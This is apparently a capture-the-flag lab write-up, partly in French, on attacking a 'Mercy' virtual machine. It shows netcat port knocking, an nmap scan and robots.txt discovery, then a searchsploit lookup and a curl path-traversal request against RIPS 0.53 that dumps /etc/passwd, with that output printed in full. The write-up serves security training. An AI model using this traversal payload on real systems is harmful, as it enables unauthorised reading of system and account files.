 

nc 192.168.110.17 17301
nc 192.168.110.17 28504
nc 192.168.110.17 9999


└─$ sudo nmap -p 80,22 -sV 192.168.110.17
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-15 15:29 CEST
Nmap scan report for 192.168.110.17
Host is up (0.00015s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
MAC Address: 08:00:27:65:B3:44 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.44 seconds


└─$ curl http://192.168.110.17/robots.txt                          
User-agent: *
Disallow: /mercy
Disallow: /nomercy


└─$ curl http://192.168.110.17/mercy/index
Welcome to Mercy!

We hope you do not plead for mercy too much. If you do, please help us upgrade our website to allow our visitors to obtain more than just the local time of our system.
 

# Faille

    └─$ searchsploit RIPS
    ----------------------------------------------------------- ---------------------------------
     Exploit Title                                             |  Path
    ----------------------------------------------------------- ---------------------------------
    RIPS 0.53 - Multiple Local File Inclusions                 | php/webapps/18660.txt

    curl http://192.168.110.61/nomercy/windows/code.php?file=../../../../../../etc/passwd


    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    libuuid:x:100:101::/var/lib/libuuid:
    syslog:x:101:104::/home/syslog:/bin/false
    landscape:x:102:105::/var/lib/landscape:/bin/false
    mysql:x:103:107:MySQL Server,,,:/nonexistent:/bin/false
    messagebus:x:104:109::/var/run/dbus:/bin/false
    bind:x:105:116::/var/cache/bind:/bin/false